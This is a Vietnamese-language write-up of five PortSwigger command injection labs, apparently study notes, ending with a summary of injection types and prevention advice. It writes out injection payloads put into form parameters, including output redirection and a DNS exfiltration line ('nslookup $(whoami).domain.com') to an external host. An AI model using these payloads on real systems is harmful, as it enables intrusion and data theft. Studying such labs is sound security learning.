# Portswigger - Command Injection


## APPRENTICE

## 1. Lab: OS command injection, simple case

### Mô tả bài

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.

### Writeup

Ở bài lab này, khi ta mở đến một sản phẩm bất kỳ, ngay phía dưới sản phẩm đó sẽ có chức năng kiểm tra sản phẩm còn trong kho, ứng dụng này sẽ thực thi một sell command chứa `productID` và `storeID`.



Lúc này ta thử chèn thêm `&&whoami` phía sau nếu không xử lí kĩ sẽ thực thi thêm cả `whoami`.



Kết quả cho thấy nó không hề chạy lệnh này, có vẻ backend đã chặn ký tự `&` vì vậy ta encode và thử lại.



Thành công chạy lệnh `whoami` và solve được bài lab.




## PRACTITIONER

## 2. Lab: Blind OS command injection with time delays

### Mô tả bài

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

### Writeup

Bài lab này chứa một lỗ hổng command injection trong chức năng feedback. Chọn chức năng và gửi thử một req bình thường.



Vì đề bài yêu cầu chèn một lệnh để tạo delay 10 giây nên em sử dụng lệnh `ping -c 10 127.0.0.1` để chèn.

Khi để ở dạng plaintext bình thường thì thời gian phản hồi vẫn chưa có sự thay đổi.



Ngay cả khi đã encode nhưng vẫn chưa thành công tạo ra delay 10 giây.



Sau đó ta thử lần lượt các tham số khác.



Cho đến khi gắn encode của lệnh `& ping -c 10 127.0.0.1 &` vào sau tham số `email` thì đã thành công tạo ra delay 10 giây cho phản hồi từ trang web.



## 3. Lab: Blind OS command injection with output redirection

### Mô tả bài

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
```
/var/www/images/
```
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the `whoami` command and retrieve the output.


### Writeup

Bài lab này chứa một lỗ hổng command injection trong chức năng feedback. Chọn chức năng và gửi thử một req bình thường.



Đề bài yêu cầu cần phải ghi `output` từ lệnh `whoami` vào một file bất kỳ trong folder `/var/www/images/` nên em quyết định sẽ chèn lệnh `& whoami > /var/www/images/output.txt &` ở dạng encode vào gói `POST` feedback.



Sau đó tận dụng gói tin load ảnh và đổi file ảnh thành file `output.txt`, nếu lệnh ở bước trước thành công thì em sẽ hoàn toàn có thể nhận được tên người dùng ở gói response.



Thành công solve bài lab.



## 4. Lab: Blind OS command injection with out-of-band interaction

### Mô tả bài

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.


### Writeup

Bài lab này chứa một lỗ hổng command injection trong chức năng feedback. Chọn chức năng và gửi thử một req bình thường.



Vì đây là một bài blind và ở đề bài có yêu cầu lookup đến một domain bên ngoài nên ta sử dụng Burp Collaborator để tạo một domain.

Sau đó tương tự với các lab bên trên cũng chèn lệnh `& nslookup domain.com &` dạng encode vào sau email rồi gửi đi gói tin.



Solve thành công bài lab.



## 5. Lab: Blind OS command injection with out-of-band data exfiltration

### Mô tả bài

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

### Writeup

Bài lab này chứa một lỗ hổng command injection trong chức năng submit feedback. Chọn chức năng và gửi thử một req bình thường.



Tương tự với bài lab bên trên thì bài này cũng cần sử dụng đến domain từ Burp Collaborator và chèn lệnh lookup đến đó.

Vì ở đây yêu cầu submit tên người dùng từ bài lab nên ta sẽ thêm lệnh `$(whoami)` vào trước domain và sử dụng lookup đến đó.

Tiến hành thêm lệnh `& nslookup $(whoami).domain.com &` dạng encode vào sau tham số `email` rồi gửi đi gói tin đó.



Sau đó kiểm tra bên tab Collaborator để xem request đến.



Submit và solve bài lab.




## Tổng kết

**OS Command Injection** là lỗ hổng xảy ra khi ứng dụng đưa dữ liệu người dùng vào lệnh hệ điều hành không an toàn, khiến kẻ tấn công có thể thực thi lệnh trên máy chủ.

### Các loại chính

* **In-band Command Injection:** Kết quả của lệnh được trả trực tiếp trong response của website. Ví dụ dùng `whoami`, `id` hoặc `uname -a` để xem thông tin hệ thống.
* **Blind Command Injection:** Lệnh được thực thi nhưng kết quả không xuất hiện trong response.

  * **Time-based:** Chèn lệnh như `ping` hoặc `sleep` để tạo độ trễ và xác nhận lệnh đã chạy.
  * **Output redirection:** Ghi kết quả lệnh vào file trong web root, sau đó truy cập file bằng trình duyệt.
  * **Out-of-band/OAST:** Ép máy chủ gửi DNS hoặc HTTP request tới hệ thống bên ngoài để xác nhận hoặc lấy dữ liệu.

### Cách phát hiện và khai thác

Kẻ tấn công thử các ký tự nối hoặc phân tách lệnh như:

```text
&   → tách/chạy nền
&&  → chạy tiếp nếu thành công
|   → truyền output sang lệnh khác
||  → chạy tiếp nếu thất bại
;   → chạy tuần tự vô điều kiện
$() → thực thi lệnh lồng bên trong
```

Ví dụ:

```text
& whoami &
```

Nếu kết quả `whoami` xuất hiện trong response thì tồn tại in-band command injection.

Nếu không thấy kết quả, có thể thử:

```text
& ping -c 10 127.0.0.1 &
```

Nếu response chậm khoảng 10 giây thì có thể tồn tại blind command injection.

### Hậu quả

Kẻ tấn công có thể đọc hoặc sửa file, đánh cắp dữ liệu, thực thi mã độc, chiếm quyền máy chủ và mở rộng tấn công sang các hệ thống nội bộ khác.

### Cách phòng tránh

* Không gọi trực tiếp shell hoặc lệnh hệ điều hành từ ứng dụng.
* Sử dụng API hoặc thư viện an toàn thay cho lệnh shell.
* Nếu bắt buộc phải dùng, chỉ chấp nhận dữ liệu theo whitelist.
* Kiểm tra nghiêm ngặt kiểu dữ liệu, ví dụ ID chỉ được chứa số.
* Chỉ cho phép ký tự cần thiết, không cho phép khoảng trắng hoặc ký tự shell.
* Chạy ứng dụng với quyền thấp nhất.
* Không chỉ dựa vào việc escape hoặc blacklist ký tự vì có thể bị bypass.
